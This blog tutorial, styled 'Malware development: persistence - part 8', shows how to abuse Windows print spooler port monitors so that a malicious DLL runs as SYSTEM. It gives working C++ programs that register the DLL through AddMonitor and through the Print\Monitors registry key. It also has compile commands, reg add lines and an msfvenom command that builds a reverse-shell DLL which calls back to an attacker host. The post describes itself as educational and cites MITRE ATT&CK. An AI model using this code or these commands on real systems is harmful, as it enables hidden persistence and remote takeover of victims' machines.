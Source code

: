 ```yaml
---
title:  "Malware development: persistence - part 8. Port monitors. Simple C++ example."
date:   2022-06-19 10:00:00 +0600
header:
  teaser: "/assets/images/59/2022-06-20_19-35.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/59/2022-06-20_19-35.png){:class="img-responsive"}    

This article is the result of my own research into the next interesting malware persistence trick: Port monitors.    

### port monitors

Port Monitor refers to the Windows Print Spooler Service or `spoolv.exe` in this post. When adding a printer port monitor, a user (or an attacker) is able to add an arbitrary dll that serves as the *"monitor"*.    

There are essentially two ways to add a port monitor, also known as your malicious DLL: through the Registry for persistence or a custom Windows application (`AddMonitor` function) for immediate dll execution.    

### adding monitor

Using the Win32 API, specifically the `AddMonitor` function of the Print Spooler API:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

it is possible to add an arbitrary monitor DLL immediately while the system is running. Note that you will need local administrator privileges to add the monitor.    

For example, source code of our monitor:    

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}

```

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lwinspool
```

![pers](/assets/images/59/2022-06-20_08-17.png){:class="img-responsive"}    

Also, create our "evil" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](/assets/images/59/2022-06-20_19-24.png){:class="img-responsive"}    

So, compiling the code will produce an executable (`monitor.exe` in my case) that will register the malicious DLL (`evil2.dll`) on the system.    

### demo for add "monitor"

Copy files and run:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](/assets/images/59/2022-06-20_19-28.png){:class="img-responsive"}    

### registry persistence

A list of sub-key port monitors can be found within the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors` node. Each key should have a `REG_SZ` entry containing a `Drivers` DLL. At system startup, each of these DLLs will be executed as `SYSTEM`.    

First of all, before malicious actions, check sub keys:

```powershell
reg query "HKLM\System\CurrentControlSet\Control\Print\Monitors" /s
```

![pers](/assets/images/59/2022-06-20_15-48.png){:class="img-responsive"}    

Then, add sub key `Meow` and `Driver` value:    

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow" /v "Driver" /d "evil2.dll" /t REG_SZ
reg query "HKLM\System\CurrentControlSet\Control\Print\Monitors" /s
```

![pers](/assets/images/59/2022-06-20_18-17.png){:class="img-responsive"}    

As you can see, everything is completed correctly. Then restart victim's machine:    

![pers](/assets/images/59/2022-06-20_18-17_1.png){:class="img-responsive"}    

![pers](/assets/images/59/2022-06-20_18-17_2.png){:class="img-responsive"}    

And after a few minutes:    

![pers](/assets/images/59/2022-06-20_19-30.png){:class="img-responsive"}    

![pers](/assets/images/59/2022-06-20_19-31.png){:class="img-responsive"}    

Let's go to check `Network` tab in Process Hacker 2:    

![pers](/assets/images/59/2022-06-20_19-34.png){:class="img-responsive"}    

We can see that the `evil2.dll` is being accessed by the `spoolsv.exe (PID: 4616)`, which eventually spawns a `rundll32` with our payload, that initiates a connection back to the attacker:     

![pers](/assets/images/59/2022-06-20_19-33.png){:class="img-responsive"}    

For cleanup, after end of experiments, run:

```powershell
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Print\Monitors\Meow" -Name "Driver"
```

![pers](/assets/images/59/2022-06-20_21-22.png){:class="img-responsive"}    

My "dirty PoC" for registry persistence:    

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

During Defcon 22, Brady Bloxham [demonstrated](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) this persistence technique. This method requires Administrator privileges and the DLL must be saved to disk.   
The question remains whether any APTs uses this technique in the wild.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[source code on Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
